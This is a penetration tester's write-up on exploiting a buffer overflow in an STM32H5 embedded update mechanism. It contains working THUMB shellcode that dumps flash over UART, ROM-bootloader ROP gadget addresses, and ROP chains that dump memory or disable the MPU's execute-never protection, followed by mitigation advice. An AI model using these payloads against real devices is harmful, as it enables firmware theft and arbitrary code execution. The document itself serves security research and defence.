



During a pentest I found an exploitable stack-based buffer overflow in the update mechanism of an embedded system running on an STM32H5. This system lacked critical protections that will be discussed here.

This article assumes you are familiar with binary exploitation techniques.



*A base de pop pop pop*


The unhardened approach: a stack shellcode
==========================================

Dropping a shellcode on the stack and jumping to it is the textbook exploitation you've probably seen a hundred times in CTFs. The overflow overwrites the return address and makes it point to a stack address that contains the shellcode.

There are no major hurdles here. Though, two pieces of information are needed:

* where exactly does the overflow overwrite register ```LR```
* what the address of the stack is

The first one is obtained by bruteforcing payloads lengths until a crash is seen. The second one is easy if the payload is of unlimited length, just insert a NOP sled and jump to a stack address that makes sense for this system. In this case the initial range can be guessed: it has to be in the low range of the SRAM at 0x20000000 since it's very early in the boot, that's something that is easily bruteforced. There's also a clean way of leaking the stack pointer which we'll discuss later on.



The shellcode will be written in THUMB mode because the MCU is sure to be running in this mode in the early boot stages: it's a high-density reduced instruction set widely used in small embedded systems since it generates a smaller code footprint, owing to its 16-bit instructions. The only thing to pay attention to is to set the LSB of every branch address to tell the processor to stay in THUMB mode, that is adding +1 to the address. There, that's 3 hours of debugging I just saved you.

The constructed payload will dump the full internal flash on USART1, which we know is routed and open. From this MCU's datasheet, the flash starts at 0x08000000 and ends at 0x08200000. The payload will read one byte from the flash, check and wait until the USART1_ISR register is clear and then write that one byte of firmware to the USART1_TDR register. Then it loops back to reading the next byte.

Written in assembly, it looks like this:
```armasm
.thumb
    .syntax unified
    .global start

start:
    ; USART1 register base
    movw r2, #0x3800
    movt r2, #0x4001

    ; flash start
    movw r3, #0x0000
    movt r3, #0x0800

    ; flash end
    movw r4, #0x0000
    movt r4, #0x0820

loop:
    ldrb r1, [r3], #1
wait:
    ldr r0, [r2, #0x1C]     ; read USART1 interrupt and status register
    tst r0, #0x80           ; check if USART1 is busy
    beq wait

    strb r1, [r2, #0x28]    ; write to USART1 transmit data register
    cmp r3, r4              ; check if end has been reached
    bne loop
```

It's compiled using a cross-compilation toolchain:
```
arm-none-eabi-as -mthumb -o code.o code.s
arm-none-eabi-objcopy -O binary code.o code.bin
```

The resulting shellcode:
```
43 F6 00 02  C4 F2 01 02  40 F2 00 03  C0 F6 00 03  40 F2 00 04  C0 F6 20 04  13 F8 01 1B
D0 69 10 F0  80 0F FB D0  82 F8 28 10  A3 42 F5 D1
```

When in doubt, [Jonathan Salwan's online disassembler](https://shell-storm.org/online/Online-Assembler-and-Disassembler/) can be used to verify the payload.


Going further: bypassing a non executable stack
===============================================

The previous attack assumed that there were no protections on this system. The most obvious protection is to forbid execution from the stack, it's usually called NX on x86 architectures. In ARM's case it's named XN for eXecute-Never and is handled by a peripheral named the Memory Protection Unit (MPU). It's supposed to be set programmatically in the early boot stages. This MPU is described in ST's [Application Note AN4838](https://www.st.com/resource/en/application_note/an4838-introduction-to-memory-protection-unit-management-on-stm32-mcus-stmicroelectronics.pdf).



If you're following along on a development board, these are the OpenOCD commands to set it:
```
mww 0xE000ED98 0            # MPU_RNR: select a region to program, since it's a new one we start at 0
mww 0xE000ED9C 0x20000003   # MPU_RBAR: set the base address of the region to protect and flags
mww 0xE000EDA0 0x2007FF03   # MPU_RASR: set the region attributes and size, note that it looks like an SRAM address by pure accident
mww 0xE000ED94 0x00000005   # MPU_CTRL: enable the MPU
```

When this protection is set, jumping to the shellcode in SRAM will cause a MemManage fault and trigger a reset.

How to get around this protection? Historically, NX is bypassed using Return-Oriented Programming (ROP). It consists in assembling small bits of the already existing code called gadgets to create a chain that will execute arbitrary code.

The problem is that you first need a firmware dump to identify gadgets. Since the goal here is to dump the firmware we've got ourselves a bit of a chicken and egg problem. That's when I got the idea to use the ROM code to ROP. The ROM code is a tiny proprietary burned-in bootloader used to flash the target. It is the same for every chip which makes it the perfect candidate for ROP. Everyone can now reuse this research!

The ROM code was dumped from a development board. Gadgets were identified using [Ropper](https://github.com/sashs/Ropper):
```
ropper -f /home/gquere/stm32h5/bootrom.bin -a ARMTHUMB --inst-count 2 -I 0x0bf97000
```

I've selected a few for you that you can use to read and write anywhere. Of course, there are many others!
```
0x0bf994b3 str r0, [r4]; pop {r4, pc};
0x0bf97379 ldr r0, [r4]; bx lr;
0x0bf9a927 pop {r0, r4, pc};
0x0bf99b6b pop {r0, pc};
```

Naive approach 1: dumping the firmware directly on UART
-------------------------------------------------------

It had been a while since I last did ROP so I had pretty much forgotten everything. I naively tried to replicate the shellcode in ROP:

```
0x0bf9a927  pop {r0, r4, pc};
0x41        r0
0x40013828  r4=USART1_TDR
0x0bf994b3  str r0, [r4]; pop {r4, pc}
0xDEADBEEF  junk to pop in r4
... do that again for any number of bytes ...
```

This didn't work well because the UART would hang if written to too fast. It's mandatory to monitor its status register before writing to it.

But this payload can be used to validate that the ROP chain indeed works, it will simply print 'A' on USART1.

Naive approach 2: calling the ROM code UART_write_byte()
--------------------------------------------------------

OK so the UART cannot be directly written to because it's hard to monitor the status of said UART in ROP. Simple solution: call the ROM code function that writes to the UART since it does handle the status check before writing.

After a bit of reverse engineering, the UART_write_byte function is found at offset 0x0BF9DFBC. It takes a single byte as input but also requires that a stack structure has been set, the target USARTx base address has to be written at offset 0x20003348.

When using USART1 this means that the ROP chain that sets up the ROM code UART function should start like so:
```
0x0bf9a927  pop {r0, r4, pc}
0x40013800  Value to be written (pops UART_BASE into r0)
0x20003348  Target memory address (pops into r4)
0x0bf994b3  str r0, [r4]; pop {r4, pc}
0xDEADBEEF  junk to pop in r4
```

Problem 1: you can't write loops in ROP, your program has to be a linear chain of instruction addresses. This means that for each byte you want to dump you need to write a 20-byte payload. For a 2MB internal flash that seems like quite a big payload!

Problem 2: the UART write function actually ends in ```bx lr``` and not with a ```pop {..}```. This makes it harder to call several times since LR has to be set beforehand. Didn't want to deal with that, if you want to I think you could do it using these two gadgets to build a LR sled:
```
0x0bf98eb5 pop {pc};
0x0bf99a2f pop.w {r1, r2, r4, lr}; bx r0;
```

Problem 3: I didn't find a way to left-shift registers using the available gadgets, this is needed because the USART registers take bytes as inputs, not 32-bits integers


Working approach 1: calling the ROM code UART loop
--------------------------------------------------

Let's go back to reversing the ROM code: is the UART_write_byte() function called somewhere in a loop where all arguments are easily controlled?

Well yes, this happens at offset 0x0BF9DD2E:
```armasm
loop:
    mov     r1, r5
    mov     r0, r7
    bl      read_byte_aligned
    bl      UART_write_byte
    adds    r7, r7, #1
    subs    r4, r4, #1
    bne     loop
```

Let's call this loop from our ROP chain!
```
; set up the stack UART ptr as seen previously
0x0bf9a927  pop {r0, r4, pc}
0x40013800  Value to be written (pops UART_BASE into r0)
0x20003348  Target memory address (pops into r4)
0x0bf994b3  str r0, [r4]; pop {r4, pc}
0xDEADBEEF  junk to pop in r4

; now jump to the UART write loop
0x0bf987d5  pop {r4, r5, r6, r7, pc}
0x0         r4 => basically unlimited length
0x1         r5 => read mode = 1
0x0         r6 junk
0x08000000  base address to dump
0x0bf9dd2f  the ROM code UART loop address (+1)
```

This technique managed to produce a full flash dump.

It's also a working way to dump the full SRAM, which incidentally leaks the SP.

Working approach 2: ROP + shellcode
-----------------------------------

The usual way to bypass XN is to write a tiny ROP chain that will disable the MPU and to then jump to a shellcode in SRAM since it will be rendered executable. This technique is technically better than the previous one because it lets you run arbitrary code, whereas the other could only dump memory (but that was the goal soooooo...).

That's very easy — all that is needed is to write 0 to MPU_CTRL at address 0xE000ED94:
```
0x0bf9a927  pop {r0, r4, pc};
0x0         r0
0xE000ED94  MPU control register
0x0bf994b3  str r0, [r4]; pop {r4, pc}
0xDEADBEEF  junk to pop in r4
```

Then just append the shellcode and you're done!


Protecting against ROP
======================

What made this attack work is that the "public" ROM code was used to build a ROP chain. The way to protect against this is to unmap this region when setting the MPU. This is done by defining all needed regions (that is at least code, SRAM and peripherals) and then making all other regions inaccessible.

It might still be possible to exploit a fully hardened MPU under special circumstances:

* you have prior access to the firmware and can extract gadgets from it, that means you can ROP from the actual firmware
* you are able to [blind ROP](https://www.scs.stanford.edu/brop/), it's a known technique but I doubt it works well for embedded systems!
